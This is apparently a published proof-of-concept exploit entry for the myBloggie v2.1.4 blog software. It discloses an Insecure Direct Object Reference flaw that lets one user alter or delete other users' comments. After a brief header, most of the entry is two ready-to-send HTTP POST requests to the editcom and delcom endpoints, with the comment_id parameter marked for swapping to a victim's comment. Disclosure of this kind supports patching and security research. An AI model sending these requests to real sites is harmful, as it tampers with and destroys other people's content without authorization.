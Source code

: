 # Exploit Title: myBloggie v2.1.4 - Insecure Direct Object Reference(IDOR)
## Date: 4/1/2024
## Vendor Homepage: https://sourceforge.net/projects/mybloggie/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHP News System
## Version: v2.1.4
## Exploit Description:
## myBloggie v2.1.4 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to update and delete comment that owned by other user(horizontal privilege escalation).

## ---------------------------------POC-----------------------------

```
POST /index.php?mode=editcom&post_id=2&comment_id=2(CHANGE HERE) HTTP/1.1
...

commentsubject=comment_from_user2&commenttext=user2+i+am+user1&commentname=user2&commentemail=user2%40test.com&commenthome=&submit=Submit&post_id=2&comment_id=
```

```
POST /index.php?mode=delcom HTTP/1.1
...

post_id=2&comment_id=2(CHANGE HERE)&confirm=yes
```